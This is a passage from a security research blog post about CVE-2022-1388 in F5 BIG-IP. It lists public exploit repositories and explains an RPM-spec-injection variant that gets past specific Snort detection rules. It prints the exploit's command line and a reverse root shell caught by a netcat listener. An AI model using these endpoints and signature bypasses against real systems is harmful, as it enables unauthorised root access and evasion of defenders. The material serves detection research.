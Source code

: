 |\\n|48:rArpnVOEUlQY0YIQUG+Clu8T26HlCO1dg6LQ3HnczPPuoHzPppkqEpvAZgcU2aAD:sFnkDQY5RhQXUfpKqCQgcU1YVbfp|https://raw.githubusercontent.com/ZephrFish/F5-CVE-2022-1388-Exploit/main/CVE\_2022\_1388.py|\\n|48:krpnVOEUlQY0YIQUGwhGgfT26HlCO1dg6LQ3HnczPPuoHzPppkqEpvAZgcU2aALn:kFnkDQYQRhQXUfpKqCQgcU1YVbfp|https://raw.githubusercontent.com/devengpk/CVE-2022-1388/main/exploit.py|\\n|48:9rpnVO8VCO1dg6LQtnczPPujHzPppkqEpvApgcU2sALslAeKUtxQj4OsZkKClfas:9Fnk2hQtU4pKqCmgcUtMVbfNR|https://raw.githubusercontent.com/thatonesecguy/CVE-2022-1388-Exploit/main/CVE\_2022\_1388.py|\\n|96:UjbFnk+QY09edQXUwzpdVPAMwxSV5gcU12VLizsp:UjbOY08dQXXd9AMOiw2VLizsp|https://raw.githubusercontent.com/bytecaps/CVE-2022-1388-EXP/main/exp.py|\\n|96:8Fnk+QY03epQ/JXNSYdpdVYf/MhdgcU1/VLJlp:8OY0OpQ/JXNSQdSnMhs/VLJlp|https://raw.githubusercontent.com/LinJacck/CVE-2022-1388-EXP/main/CVE-2022-1388.py|\\n\\nThe reality is that there are only four exploit variants of CVE-2022-1388 on GitHub because many of the exploits are mostly copy-and-paste jobs. Unfortunately, for us, that means we need to look elsewhere to discover an interesting or new nugget of information. Let’s cast about for the next thing.\\n\\n\\n## Hunting on AttackerKB\\n\\nAs a former \[AttackerKB\](https://attackerkb.com/) contributor, this author is biased. I firmly believe Rapid7’s Technical Analysis’ on AttackerKB is underappreciated. They are a great place to monitor for new exploits. The VulnCheck exploit repository indicates the AttackerKB entry for \[CVE-2022-1388\](https://attackerkb.com/topics/SN5WCzYO7W/cve-2022-1388/rapid7-analysis) has exploits. After reading the AttackerKB analysis, we found this important note (likely attributable to \[Ron Bowes\](https://github.com/rbowes-r7)):\\n\\n>While testing, before we knew about /mgmt/tm/util/bash, we actually devised a much more complicated way to run code: RPM specification injection! We’ll show that method here, because it’s conceivable that an attacker might use it to evade detection. It’s also kinda interesting!\\n\\nThe write-up goes on to describe how to use two HTTP endpoints to execute arbitrary commands on the F5 BIG-IP HTTP management interface:\\n\\n1. \`/mgmt/shared/iapp/rpm-spec-creator\` to provide the command(s) to execute\\n2. \`/mgmt/shared/iapp/build-package\` to trigger execution.\\n\\nHowever, the analysis doesn’t provide a proof of concept exploit that uses the endpoint in conjunction with CVE-2022-1388. Additionally, \[searching GitHub\](https://github.com/search?q=%2Fmgmt%2Fshared%2Fiapp%2Frpm-spec-creator&type=code) for these endpoints doesn’t yield any results for CVE-2022-1388 (Rapid7 later got this issue fixed as \[CVE-2022-41800\](https://www.rapid7.com/blog/post/2022/11/16/cve-2022-41622-and-cve-2022-41800-fixed-f5-big-ip-and-icontrol-rest-vulnerabilities-and-exposures/) and published their disclosure in November 2022 - the results on GitHub all point to the associated Metasploit module for CVE-2022-41800).\\n\\nEssentially, the AttackerKB analysis told everyone a CVE-2022-1388 exploit variation was possible. But then no one actually published an exploit demonstrating that. We can remedy that, and we are especially excited to do so because this variant will bypass a second Snort rule! Snort 2.9 Community Rule 57336 explicitly looks for the \`bash\` endpoint:\\n\\n\`\`\`py\\ncontent:"/mgmt/tm/util/bash"; fast\_pattern:only; http\_uri;\\n\`\`\`\\n\\nSimilarly, Emerging Threats Snort 2.9 Rule 2036556 is bypassed looks for \`/mgmt/tm/\`:\\n\\n\`\`\`py\\ncontent:"/mgmt/tm"; http\_uri; depth:8;\\n\`\`\`\\n\\nHere we are again, with next to no original thought, we’ve found a second rule bypass and we’re able to contribute a new exploit variant to the GitHub exploit ecosystem. You can find our new exploit \[here\](https://github.com/j-baines/tippa-my-tongue). The exploit implements two signature bypasses and opts for the \`X-Forward-Host\` variation. Example output:\\n\\n\`\`\`c\\nalbinolobster@mournland:~/tippa-my-tongue$ python3 tippa-my-tongue.py --rhost 10.9.49.191 --lhost 10.9.49.194\\n\\n ▄▄▄▄▄▪ ▄▄▄· ▄▄▄· ▄▄▄· • ▌ ▄ ·. ▄· ▄\\n •██ ██ ▐█ ▄█▐█ ▄█▐█ ▀█ ·██ ▐███▪▐█▪██\\n ▐█.▪▐█· ██▀· ██▀·▄█▀▀█ ▐█ ▌▐▌▐█·▐█▌▐█▪\\n ▐█▌·▐█▌▐█▪·•▐█▪·•▐█ ▪▐▌ ██ ██▌▐█▌ ▐█▀·.\\n ▀▀▀ ▀▀▀.▀ .▀ ▀ ▀ ▀▀ █▪▀▀▀ ▀ • \\n ▄▄▄▄▄ ▐ ▄ ▄▄ • ▄• ▄▌▄▄▄ . \\n •██ ▪ •█▌▐█▐█ ▀ ▪█▪██▌▀▄.▀· \\n ▐█.▪ ▄█▀▄ ▐█▐▐▌▄█ ▀█▄█▌▐█▌▐▀▀▪▄ \\n ▐█▌·▐█▌.▐▌██▐█▌▐█▄▪▐█▐█▄█▌▐█▄▄▌ \\n ▀▀▀ ▀█▄▀▪▀▀ █▪·▀▀▀▀ ▀▀▀ ▀▀▀ \\n\\n CVE-2022-1388 \\n CVE-2022-41800 \\n\\n 🦞 \\n\\n\[+\] Executing netcat listener\\n\[+\] Using /usr/bin/nc\\nListening on 0.0.0.0 1270\\n\[+\] Sending initial request to rpm-spec-creator\\n\[+\] Sending exploit attempt request to build-package\\nConnection received on 10.9.49.191 47152\\nbash: no job control in this shell\\n\[@localhost:NO LICENSE:Standalone\] BUILD # pwd\\npwd\\n/var/config/rest/node/tmp/BUILD\\n\[@localhost:NO LICENSE:Standalone\] BUILD # id\\nid\\nuid=0(root) gid=0(root) groups=0(root) context=system\_u:system\_r:initrc\_t:s0\\n\[@localhost:NO LICENSE:Standalone\] BUILD #\\n\`\`\`\\n\\n## Out of Luck\\n\\nWe’ve gathered variant ideas from GitHub. We’ve pilfered a new exploit endpoint from a better researcher. We’ve written a new exploit and bypassed two Snort rules, but there is still one more Snort rule we haven’t bypassed. Snort 2.9 Community Rule 59735:\\n\\n\`\`\`py\\nalert tcp $EXTERNAL\_NET any -> $HOME\_NET $HTTP\_PORTS (msg:"SERVER-WEBAPP F5 BIG-IP iControl remote code execution attempt"; \\\\n flow:to\_server,established; \\\\n content:"Connection:"; nocase; http\_header; \\\\n content:"X-F5-Auth"; distance:0; fast\_pattern; nocase; http\_header; \\\\n pcre:"/^Connection:\[^\\r\\n\]\*?X-F5-Auth/Him";\\n reference:cve,2022-1388; classtype:attempted-user; sid:59735; rev:2;)\\n\`\`\`\\n\\nThe problem is this: Snort Community Rule 59735 does an excellent job of catching a single minimum requirement for exploitation. At the end of the day, exploitation will
